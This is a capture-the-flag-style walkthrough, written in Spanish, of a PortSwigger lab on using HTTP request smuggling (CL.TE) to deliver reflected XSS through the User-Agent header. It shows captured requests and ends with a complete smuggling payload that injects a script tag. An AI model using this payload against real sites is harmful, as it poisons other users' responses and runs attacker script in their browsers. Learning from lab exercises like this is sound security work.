 # Lab: Exploiting HTTP request smuggling to deliver reflected XSS
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

The application is also vulnerable to [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) via the `User-Agent` header.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to receive a response containing an XSS exploit that executes `alert(1)`.
En este laboratorio, no solo tenemos un HTTP smuggling sino también un XSS reflejado. 
Entonces vemos que la solicitud es la siguiten:
~~~
GET /post?postId=5 HTTP/2
Host: 0ae200590497b14282be9351006d00ba.web-security-academy.net
Cookie: session=ynKU6KJCJ1re6zBj13JmGKP5nbSmzRQG
Cache-Control: max-age=0
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ae200590497b14282be9351006d00ba.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=0, i

~~~
Buscando en el buscador de palabras de Burpsuite, veo que en respuesta esta lo siguietne:
~~~
                           <input required type="hidden" name="userAgent" value="Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36">
                            <input required type="hidden" name="postId" value="5">
~~~
Lo que da a pensar que se esta reflejando nuestro user agent. El método solo se puede hacer en GET, pero no hay problema
~~~
POST / HTTP/1.1
Host: 0ae200590497b14282be9351006d00ba.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 218
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: foobar"><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Host: 0ae200590497b14282be9351006d00ba.web-security-academy.net

x=
~~~